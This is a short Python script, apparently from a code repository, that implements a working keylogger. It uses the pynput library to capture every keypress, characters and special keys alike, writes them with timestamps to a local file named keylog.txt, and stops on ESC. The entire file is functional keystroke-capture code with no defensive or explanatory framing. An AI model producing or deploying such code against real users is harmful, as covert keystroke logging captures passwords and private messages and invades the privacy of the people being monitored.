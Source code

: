 # Shobhit6
from pynput import keyboard
import logging

# Set up logging to a file
logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        # Log the pressed key
        logging.info(f'Key pressed: {key.char}')
    except AttributeError:
        # Handle special keys
        logging.info(f'Special key pressed: {key}')

def on_release(key):
    # Stop listener on ESC key
    if key == keyboard.Key.esc:
        return False

def main():
    print("Keylogger started. Press ESC to stop.")
    # Collect events until released
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()
